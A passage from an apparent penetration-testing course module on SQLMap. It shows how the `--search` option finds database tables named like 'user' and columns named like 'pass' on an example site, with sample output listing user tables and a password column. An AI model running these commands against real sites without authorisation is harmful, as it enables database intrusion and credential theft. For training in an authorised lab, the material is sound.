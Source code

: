 ```shell-session
+---------+---------------+
```

***

### Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

In the above example, we can immediately spot a couple of interesting data retrieval targets based on these search results. We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
```